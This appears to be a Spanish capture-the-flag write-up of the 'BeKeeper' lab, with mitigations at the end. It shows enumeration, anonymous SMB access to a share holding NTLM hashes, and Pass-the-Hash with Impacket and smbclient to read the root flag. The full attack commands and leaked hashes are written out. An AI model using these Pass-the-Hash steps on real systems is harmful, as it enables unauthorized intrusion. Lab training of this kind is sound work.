






<h1 align="center">[Writeup] BeKeeper - Reporte de Vulnerabilidad</h1>

**Dificultad:** Media (★★★☆☆☆☆☆)

**Categoría:** Credential Exposure / Pass-the-Hash / SMB Misconfiguration

**Autor:** SBZTNGNR

**Fecha**: 22-10-2026

**Plataforma**: WhoAmI-Labs.com

---

<h1 align="center">Descripción</h1>
Escenario de entrenamiento en ciberseguridad ofensiva enfocado en Pivoting & Lateral Movement con dificultad Medium. Diseñado para evaluar metodología de enumeración, explotación de vectores de ataque y escalada de privilegios.

---
<h1 align="center">1. Fase de Reconocimiento y Enumeración</h1>
## Escaneo Inicial de Puertos

Se realizó un descubrimiento de servicios en el host objetivo **172.17.0.2** utilizando la herramienta **nmap**:

```bash
nmap -sC -p- --min-rate 1000 172.17.0.2 -oN scan_bekeeper.txt
```

Resultado:
```bash
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-22 00:02 -0300
Nmap scan report for 172.17.0.2
Host is up (0.000017s latency).
Not shown: 65527 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
25/tcp   open  smtp
|_smtp-commands: SMTP EHLO nmap.scanme.org: failed to receive data: connection closed
80/tcp   open  http
|_http-title: BeKeeper | Enterprise Identity & Vault Management
110/tcp  open  pop3
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
6379/tcp open  redis
8888/tcp open  sun-answerbook
MAC Address: 76:BC:08:9D:DF:53 (Unknown)

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-10-22T03:02:53
|_  start_date: N/A
|_nbstat: NetBIOS name: BEKEEPER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

```

----
<h1 align="center">2. Inspeccioón Web (Puerto 80)</h1>

Dado que no se tenían credenciales aún para FTP y con el usuario "anonymous" no se consiguieron resultados, se decidió por inspeccionar la web en el puerto 80


Dicha página contenía información acerca del servicio dado y además un panel de login, el cual también se nos fue inaccesible sin credenciales en mano, se revisó el código fuente sin grandes hallazgos, así que se procedió a un fuzzing mediante GoBuster para ver si obteniamos mejores resultados:
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x html,php,txt,bak
```
```bash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,php,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 15408]
index.html           (Status: 200) [Size: 15408]
Progress: 23065 / 23065 (100.00%)
===============================================================
Finished
===============================================================

```

Tanto con listas como **common** ó **medium** obtuvimos el mismo resultado, solo la página index.html. En este punto había que elegir entre seguir un camino lineal o enumerar servicios que si expondrían archivos, priorice el servicio **Samba** en el puerto 445

---
<h1 align="center">3. Enumeración Samba (Puerto 445)</h1>

Utilizamos *smbmap* para enumerar sus recursos:


Y ya obtuvimos resultados positivos (*backups*), para revisar el contenido de la carpeta use:
```bash
smbclient //172.17.0.2/backups
```

```bash
Password for [WORKGROUP\]: #(AQUI SOLO BASTA UN ENTER)
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Oct 21 23:55:49 2026
  ..                                  D        0  Wed Oct 21 23:55:49 2026
  hashes_backup.txt                   N      237  Wed Oct 21 23:55:49 2026

                108897780 blocks of size 1024. 64234096 blocks available


#Descargamos el contenido de hashes_backup.txt
smb: \> get hashes_backup.txt 
getting file \hashes_backup.txt of size 237 as hashes_backup.txt (57,9 KiloBytes/sec) (average 57,9 KiloBytes/sec)

```

Y ahora si obtuvimos un archivo interesante, *hashes_backup.txt* contenía lo siguiente:
```text
# Corporate Local Admin Accounts Hash Backup - DO NOT DISTRIBUTE
Administrator:500:aad3b435b51404eeaad3b435b51404ee:B9D34993351605B1D7B58D6D219F41A7:::
bk_service:1002:aad3b435b51404eeaad3b435b51404ee:e19ccf75b77e82f9011f6c169d22da31:::
```



El formato de los hashes encontrados pertenecen a volcados estilos *"pwdump"*, que es el que usan herramientas cono *secretsdump.py* (Impacket), *mimikatz*, o una extracción directa del registro SAM de Windows, la estructura sería: 

```text
usuario:RID:hash_LM:hash_NTLM:::
```
Separados por **:** donde los ultimos tres campos quedan vacíos (remanentes históricos de pwdump, que incluía más metadatos)

- **1. Usuario (Administrator, bk_service):**
  Es el nombre directo del usuario.

- **2. RID (Relative Identifier) en este caso (500 y 1002):**
  Es el identificador especifico de la cuenta del usuario dentro del dominio, vale la pena saber que:
  
```bash
  - 500: Es siempre la cuenta administrador local built-in dentro de Windows.
  - 501: Es la cuenta Guest built-in
  - 1000+: Son cuentas creadas manualmente después de la instalación,                       en este caso **bk_service** podría ser el segundo o tercer                       usuario creado.
```

- **3. Hash LM (LAN Manager), en este caso *aad3b435b51404eeaad3b435b51404ee*:**
  Igual en ambos, pero por qué, porqué es un hash obsoleto, débil, usado desde los 80s y en desuso/deshabilitado desde Windows Vista/Server 2008. Cuando esta dehabilitado el sistema no calcula un hash real, simplemente coloca un valor para rellenar ese espacio

- **4. Hash NTLM (B9D34993351605B1D7B58D6D219F41A7 y e19ccf75b77e82f9011f6c169d22da31):**
  Este es el dato que realmente importa y lo que lo caracteriza es:
- **Longitud de 32 caracteres hexadecimales:** Corresponde a un hash de 128 bits, exacto el tamaño de salida de MD4, que es el algoritmo que usa **NTLM** internamente.
- **Sin Salt**: Lo que lo hace propenso a Rainbow Tables y lo que permite el **Pass-The-Hash**.

**Cómo diferenciarlo de otros hashes:**

| Característica                                   | Lo que indica                        |
| ------------------------------------------------ | ------------------------------------ |
| Formato `user:RID:hash1:hash2:::`                | Es un dump estilo pwdump/secretsdump |
| 32 hex chars, dos veces, separados por `:`       | LM y NTLM típicos de SAM             |
| Primer hash = `aad3b435b51404eeaad3b435b51404ee` | LM deshabilitado (ignorar ese campo) |
| RID 500 presente                                 | Esa cuenta es el Administrator local |

- **¿Qué es Pass-the-Hash?** 
  Pass-the-Hash (PtH) es una técnica que explota una particularidad del protocolo de autenticación NTLM: el servidor nunca valida la contraseña en texto plano, sino una respuesta criptográfica derivada del hash NTLM, mediante un intercambio challenge-response: 
  
  1. **Negotiate**: el cliente inicia la sesión con el servidor. 
  2. **Challenge**: el servidor envía un valor aleatorio (nonce). 
  3. **Response**: el cliente cifra ese challenge usando el hash NTLM de la contraseña como clave, y envía el resultado de vuelta. 
  4. El servidor realiza el mismo cálculo (conoce el hash almacenado del usuario) y compara ambas respuestas. Si coinciden, la autenticación es exitosa. 
  
  En ningún punto de este intercambio viaja la contraseña real, ni siquiera el hash en sí — solo el resultado de cifrar el challenge con el hash como clave. Esto significa que, a efectos prácticos, **el hash NTLM es funcionalmente equivalente a la contraseña**: quien lo posea puede generar una respuesta válida sin necesidad de conocer (ni crackear) la contraseña original. Esta es la razón por la que, al encontrar los hashes en **hashes_backup.txt**, no fue necesario crackearlos: bastó con inyectarlos directamente en el flujo de autenticación usando una herramienta que soportara este mecanismo.

---

# 3.1 Instalación de Impacket

- **¿Qué es impacket?**- "Impacket es una colección de clases y scripts en Python, mantenida originalmente por SecureAuth y ahora por Fortra, diseñada para **construir y manipular protocolos de red de Windows a bajo nivel** — SMB, MSRPC, Kerberos, NTLM, LDAP, entre otros — sin depender de las implementaciones nativas del sistema operativo.
  
  Esto es clave: Impacket no es una sola herramienta, es una **librería**. Lo que ejecutás en la terminal (`psexec.py`, `wmiexec.py`, `secretsdump.py`, etc.) son scripts de ejemplo que vienen incluidos en el paquete, construidos sobre esa librería, cada uno implementando un protocolo o técnica específica de ataque/administración remota."

- **¿Cómo llegamos a la conclusión de utilizar Impacket?**
  - Ya que teníamos  hashes NTLM a disposición y ninguna app nativa de Linux esta diseñada para tratar este tipo de hashes, solo lo están para autenticarse mediante usuario+contraseña , por lo tanto necesitabamos implementar **PASS-THE-HASH** , dado que NTLM utiliza challenge-response, donde nunca se manda contraseña en texto plano, solo una respuesta criptografica derivada del hash, esto significa que a nivel de protocolo **el hash es funcionalmente equivalente a la contraseña**. Por ende necesitabamos una herramienta que  implementara ese protocolo manualmente, permitiendo inyectar el hash en donde normalmente va una contraseña. El smb nativo de Linux, generalmente no expone esa función de forma sencilla y directa, aunque versiones más nuevas si soportan **--pw-nt-hash**. Impacket por su parte desde un inicio fue diseñado para soportar hashes LM:NTLM, además se necesitaba ejecución remota y no solo lectura de archivos, herramientas como *psexec.py, wmiexec-py o smbexec.py* logran esto.

## 3.1.1. Instalación mediante pipx

```python
pipx install impacket
```

El proceso nos tomo poco e instaló las siguientes herramientas:
```json
 installed package impacket 0.13.1, installed using Python 3.14.8
  These apps are now available
    - CheckLDAPStatus.py
    - DumpNTLMInfo.py
    - Get-GPPPassword.py
    - GetADComputers.py
    - GetADUsers.py
    - GetLAPSPassword.py
    - GetNPUsers.py
    - GetUserSPNs.py
    - addcomputer.py
    - atexec.py
    - attrib.py
    - badsuccessor.py
    - changepasswd.py
    - checkMSSQLStatus.py
    - dacledit.py
    - dcomexec.py
    - describeTicket.py
    - dpapi.py
    - dpapidump.py
    - esentutl.py
    - exchanger.py
    - filetime.py
    - findDelegation.py
    - getArch.py
    - getPac.py
    - getST.py
    - getTGT.py
    - goldenPac.py
    - karmaSMB.py
    - keylistattack.py
    - kintercept.py
    - lookupsid.py
    - machine_role.py
    - mimikatz.py
    - mqtt_check.py
    - mssqlclient.py
    - mssqlinstance.py
    - net.py
    - netview.py
    - ntfs-read.py
    - ntlmrelayx.py
    - owneredit.py
    - ping.py
    - ping6.py
    - psexec.py
    - raiseChild.py
    - rbcd.py
    - rdp_check.py
    - reg.py
    - registry-read.py
    - regsecrets.py
    - rpcdump.py
    - rpcmap.py
    - sambaPipe.py
    - samedit.py
    - samrdump.py
    - secretsdump.py
    - services.py
    - smbclient.py
    - smbexec.py
    - smbserver.py
    - sniff.py
    - sniffer.py
    - split.py
    - ticketConverter.py
    - ticketer.py
    - tstool.py
    - wmiexec.py
    - wmipersist.py
    - wmiquery.py
done! ✨ 🌟 ✨
```

## 3.1.2. Ejecución de Herramientas:

Al momento de ejecutar las herramintas descargadas nos arrojó errores:
```bash
└─$ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:B9D34993351605B1D7B58D6D219F41A7 Administrator@172.17.0.2
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 172.17.0.2.....
[-] share 'backups' is not writable.
[*] Found writable share C$
[*] Uploading file hUzoxoHc.exe
[*] Opening SVCManager on 172.17.0.2.....
[-] Error opening SVCManager on 172.17.0.2.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager

------------------------------------------------------------------------------
└─$ wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:B9D34993351605B1D7B58D6D219F41A7 Administrator@172.17.0.2
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[-] Could not connect: [Errno 111] Connection refused

```

A pesar de haberse subido el archivo .exe al servidor (C$ y no backups), la ejecución falló. Al investigar un poco más a fondo con la herramienta *netexec* , ademas de chequear las credenciales validas, pudimos ver que el sistema en si no era Windows, si no un sistema Unix:
```bash
└─$ netexec smb 172.17.0.2 -u Administrator -H B9D34993351605B1D7B58D6D219F41A7 -M spider_plus


SMB         172.17.0.2      445    BEKEEPER         [*] Unix - Samba (name:BEKEEPER) (domain:BEKEEPER) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.17.0.2      445    BEKEEPER         [+] BEKEEPER\Administrator:B9D34993351605B1D7B58D6D219F41A7 
SPIDER_PLUS 172.17.0.2      445    BEKEEPER         [*] Started module spidering_plus with the following options:
SPIDER_PLUS 172.17.0.2      445    BEKEEPER         [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 172.17.0.2      445    BEKEEPER         [*]     STATS_FLAG: True
SPIDER_PLUS 172.17.0.2      445    BEKEEPER         [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 172.17.0.2      445    BEKEEPER         [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 172.17.0.2      445    BEKEEPER         [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 172.17.0.2      445    BEKEEPER         [*]  OUTPUT_FOLDER: /home/-/.nxc/modules/nxc_spider_plus
SMB         172.17.0.2      445    BEKEEPER         [*] Enumerated shares
SMB         172.17.0.2      445    BEKEEPER         Share           Permissions     Remark
SMB         172.17.0.2      445    BEKEEPER         -----           -----------     ------
SMB         172.17.0.2      445    BEKEEPER         backups         READ            
SMB         172.17.0.2      445    BEKEEPER         C$              READ,WRITE      
SMB         172.17.0.2      445    BEKEEPER         ADMIN$          READ,WRITE      
SMB         172.17.0.2      445    BEKEEPER         IPC$                            IPC Service (BeKeeper Samba Server)

```

*Nota: La confirmación de Lectura/Escritura* (READ, WRITE) sugiere posibles permisos elevados dentro del sistema con el usuarios **Administrator**

---
<h1 align="center">4. Cambio de Estrategia</h1>
Tras el banner de Samba revelado por netexec, la estrategia pasó de intentar ejecución remota de forma directa (asumiendo un target Windows estándar) a una fase de enumeración más profunda para entender la naturaleza real del sistema, antes de decidir el siguiente vector de explotación

# 4.1. Enumeración Directorio C$

Para continuar se enumeraron los recursos smb disponibles, encontrando en C$, una estructura de **árbol de directorios estándar de un sistema Linux** (FHS - Filesystem Hierarchy Standard), rematando con un archivo clásico de docker (.dockerenv):

Comando:
```bash
smbclient //172.17.0.2/C$ -U Administrator --pw-nt-hash B9D34993351605B1D7B58D6D219F41A7 -c "ls"
```

Respuesta:
```bash
  .                                   D        0  Thu Oct 22 13:20:50 2026
  ..                                  D        0  Thu Oct 22 13:20:50 2026
  root                                D        0  Thu Oct 22 12:43:07 2026
  etc                                 D        0  Thu Oct 22 12:43:06 2026
  usr                                 D        0  Tue Sep  1 17:33:35 2026
  sys                                 D        0  Thu Oct 22 13:20:50 2026
  media                               D        0  Tue Sep  1 17:33:35 2026
  srv                                 D        0  Tue Sep  1 17:33:35 2026
  run                                 D        0  Fri Sep 18 15:18:24 2026
  proc                                D        0  Thu Oct 22 12:43:06 2026
  mnt                                 D        0  Tue Sep  1 17:33:35 2026
  dev                                 D        0  Thu Oct 22 12:43:06 2026
  opt                                 D        0  Tue Sep  1 17:33:35 2026
  tmp                                 D        0  Thu Oct 22 13:20:50 2026
  boot                                D        0  Mon Apr 18 07:28:59 2022
  var                                 D        0  Fri Sep 18 15:18:38 2026
  home                                D        0  Thu Oct 22 12:43:06 2026
  .dockerenv                          H        0  Thu Oct 22 12:43:06 2026

```

Comandos internos más usados dentro de la bandera **-c**:

|Comando|Qué hace|
|---|---|
|`ls`|Lista el contenido del directorio actual|
|`cd <dir>`|Cambia de directorio dentro del share|
|`get <archivo>`|Descarga un archivo al directorio local|
|`put <archivo>`|Sube un archivo local al share|
|`recurse ON`|Activa descarga recursiva de subdirectorios|
|`prompt OFF`|Desactiva la confirmación antes de cada `get`/`put` en modo recursivo|

---
<h1 align="center">5. Validando Permisos y Obteniendo Flag Root</h1>

# 5.1 Ratificando Permisos de Usuario

Dados los resultados de *netexec*, que confirmaba que se tenía poder sobre directorios administrativos (C$ y ADMIN$), tanto de lectura como de escritura, se procedió a enumerar el  directorio root, para confirmarlo:

Comando:
```bash
smbclient //172.17.0.2/C$ -U Administrator --pw-nt-hash B9D34993351605B1D7B58D6D219F41A7 -c "cd root; ls"
```

Obteniendo respuesta positiva:
```bash
  .                                   D        0  Thu Oct 22 12:43:07 2026
  ..                                  D        0  Thu Oct 22 13:20:50 2026
  .bashrc                             H     3106  Fri Oct 15 07:06:05 2021
  .profile                            H      161  Tue Jul  9 07:05:50 2019
  flag.txt                            N       37  Thu Oct 22 12:43:07 2026

                108897780 blocks of size 1024. 64191884 blocks available

```

# 5.2. Captura de flag root:

Ya solo quedaba descargar la flag.txt desde el directorio de root, puesto que no teniamos shell interactiva para leerla directamente:
```bash
smbclient //172.17.0.2/C$ -U Administrator --pw-nt-hash B9D34993351605B1D7B58D6D219F41A7 -c "cd root; get flag.txt"

###
cat flag.txt
flag{b33k33p3r_pth_smb_mast3ry_2026}
```



<h1 align="center">Flag Recuperada:</h1>

```text
flag{b33k33p3r_pth_smb_mast3ry_2026}
```

---
<h1 align="center">Nota Adicional</h1>

Como nota aparte, investigando un poco dentro del sistema, se encontró un archivo llamado **sys_metrics.py** en el directorio **/usr/local/bin**con el siguiente contenido:
```python
import socket, threading, time
def listen_port(port, resp):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        s.bind(('0.0.0.0', port))
        s.listen(5)
        while True:
            c, _ = s.accept()
            try:
                c.sendall(resp)
            except:
                pass
            c.close()
    except:
        pass
threading.Thread(target=listen_port, args=(21, b'220 BeKeeper FTP Server\r\n')).start()
threading.Thread(target=listen_port, args=(25, b'220 BeKeeper ESMTP Server\r\n')).start()
threading.Thread(target=listen_port, args=(110, b'+OK BeKeeper Mail Storage ready\r\n')).start()
threading.Thread(target=listen_port, args=(6379, b'-ERR UNLOCKED\r\n')).start()
threading.Thread(target=listen_port, args=(8888, b'HTTP/1.1 200 OK\r\nContent-Type: application/json\r\n\r\n{"status":"active","cluster":"bekeeper-prod"}\r\n')).start()
while True: time.sleep(60)
```

 Lo que nos dice, que de los puertos listados:
```bash
21/tcp   open  ftp
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
6379/tcp open  redis
8888/tcp open  sun-answerbook
MAC Address: 96:12:A3:4B:7A:ED (Unknown)
```

Solo el puerto 80, 139 y 445 eran funcionales, los demás eran simples honeypots.

---

<h1 align="center">6. Mitigaciones</h1>

## 6.1. Exposición de hashes en share SMB sin control de acceso

El vector inicial de todo el ataque fue el acceso anónimo (null session) al 
share `backups`, que contenía un archivo de texto plano con hashes NTLM de 
cuentas administrativas.

- **Restringir acceso anónimo a shares SMB**: deshabilitar `Null Auth` y 
  exigir autenticación válida para listar o acceder a cualquier recurso.
- **Nunca almacenar backups de credenciales en shares de red accesibles**: 
  si es necesario un respaldo de hashes (por ejemplo, para DR), debe 
  cifrarse y almacenarse en una ubicación con control de acceso estricto, 
  nunca en texto plano accesible vía SMB.
- **Auditar shares expuestos periódicamente** con herramientas como 
  `smbmap`/`netexec` desde una perspectiva defensiva, para detectar 
  configuraciones permisivas antes que un atacante.

## 6.2. Vulnerabilidad estructural a Pass-the-Hash

El ataque fue posible porque NTLM, por diseño, no requiere la contraseña 
en texto plano para autenticar — el hash es funcionalmente equivalente 
a la contraseña.

- **Deshabilitar NTLM donde sea posible**, migrando a Kerberos como 
  mecanismo de autenticación primario, que no es vulnerable a PtH de la 
  misma forma.
- **Restricted Admin Mode / Credential Guard** (en entornos Windows reales) 
  para evitar que los hashes queden expuestos en memoria.
- **Segmentación de red y principio de menor privilegio**: una cuenta 
  Administrator local no debería tener los mismos privilegios ni ser 
  reutilizable en múltiples hosts (evitar "password/hash reuse" entre 
  máquinas).
- **Monitoreo de autenticaciones NTLM anómalas** (por ejemplo, logins con 
  el mismo hash desde múltiples orígenes en poco tiempo) como indicador 
  de PtH activo.

## 6.3. Permisos excesivos sobre shares administrativos (C$ / ADMIN$)

La cuenta Administrator tenía acceso de lectura/escritura total sobre la 
raíz del sistema de archivos a través de `C$`, incluyendo `/root`.

- **Revisar y limitar los permisos de shares administrativos**: no deberían 
  quedar expuestos con esos nombres ni con ese nivel de acceso en un 
  servicio Samba de producción, salvo necesidad operativa explícita y 
  justificada.
- **Deshabilitar shares administrativos por defecto** (`C$`, `ADMIN$`) si no 
  son estrictamente necesarios para la operación del servicio.

## 6.4. Falsos servicios no sustituyen controles reales

Si bien los honeypots en los puertos 21/25/110/6379/8888 lograron desviar 
tiempo de enumeración, no representan una mitigación real — son una capa 
de ofuscación, no de seguridad. Un atacante con tiempo suficiente (como 
ocurrió en este caso) termina identificándolos y los descarta sin mayor 
esfuerzo.

- Los honeypots pueden ser útiles como mecanismo de **detección** 
  (alertar cuando alguien interactúa con ellos) pero nunca deben 
  reemplazar controles de acceso reales en los servicios legítimos.
